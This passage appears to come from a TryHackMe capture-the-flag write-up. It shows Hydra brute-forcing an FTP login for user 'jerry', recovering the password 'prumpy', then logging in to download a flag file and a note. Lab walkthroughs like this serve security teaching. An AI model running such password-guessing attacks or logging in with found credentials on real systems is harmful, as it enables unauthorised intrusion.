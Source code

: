 ```bash
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "     " - 2 of 14344409 [child 1] (0/0)                        
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "      " - 3 of 14344409 [child 2] (0/0)                       
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "       " - 4 of 14344409 [child 3] (0/0)                      
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "        " - 5 of 14344409 [child 4] (0/0)                     
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "         " - 6 of 14344409 [child 5] (0/0)                    
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "          " - 7 of 14344409 [child 6] (0/0)                   
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "           " - 8 of 14344409 [child 7] (0/0)                  
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "            " - 9 of 14344409 [child 8] (0/0)                 
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "               " - 10 of 14344409 [child 9] (0/0)             
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "                  " - 11 of 14344409 [child 10] (0/0)         
...
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "prumpy" - 1 of 1 [child 0] (0/0)                                                                                                                                                  
[21][ftp] host: 10.10.219.90   login: jerry   password: prumpy                                                      
[STATUS] attack finished for 10.10.219.90 (waiting for children to complete tests)                                  
1 of 1 target successfully completed, 1 valid password found                                                        
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-02-10 16:28:01    
```

![Many hours later](https://i.kym-cdn.com/photos/images/original/000/401/463/ee2.png "Many hours later")

And voilà, we have a password: __prumpy__.
Connect to FTP with jerry:prumpy and let's find out what is hide inside.

```bash
$ ftp 10.10.219.90 
Connected to 10.10.219.90.
220 TryHackMe Networking CTF!
Name (10.10.219.90:burso): jerry
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,10,219,90,89,219).
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0              33 Feb 23  2019 flag1
-rw-rw-r--    1 1001     1001          141 Feb 23  2019 note
226 Directory send OK.
ftp> get flag1
227 Entering Passive Mode (10,10,219,90,89,226).
150 Opening BINARY mode data connection for flag1 (33 bytes).
226 Transfer complete.
33 bytes received in 0.000288 seconds (112 kbytes/s)
ftp> get note
227 Entering Passive Mode (10,10,219,90,89,216).
150 Opening BINARY mode data connection for note (141 bytes).
```